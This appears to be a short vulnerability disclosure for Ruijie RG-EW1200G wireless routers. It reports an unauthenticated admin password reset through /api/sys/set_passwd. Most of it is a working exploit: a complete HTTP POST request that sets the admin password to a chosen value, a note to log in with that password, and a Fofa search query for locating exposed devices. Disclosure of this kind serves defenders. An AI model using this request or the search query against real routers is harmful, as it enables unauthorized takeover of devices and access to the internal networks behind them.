




# Information
Vendor of the products:Ruijie Networks

Vendor's website:https://www.ruijienetworks.com

Affected products:RG-EW1200G Wireless Routers

Affected firmware version: HWR_1.0(1)B1P5,Release(07161417) r483

Fofa query rule: "锐捷" && port="6060"

# Overview
Ruijie networks RG-EW1200G HWR_1.0(1)B1P5,Release(07161417) r483 has arbitrary password modification vulnerability, which allows unauthorized users to modify the administrator password, log in to the router, obtain sensitive information, and control the internal network.

# Vulnerability details



Unauthorized users can use the /api/sys/set_passwd interface to modify passwords.



```
POST /api/sys/set_passwd HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Length: 0
Content-Type: application/x-www-form-urlencoded
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

{"username":"admin","admin_new":"Tomtom123"}
```

login with password above






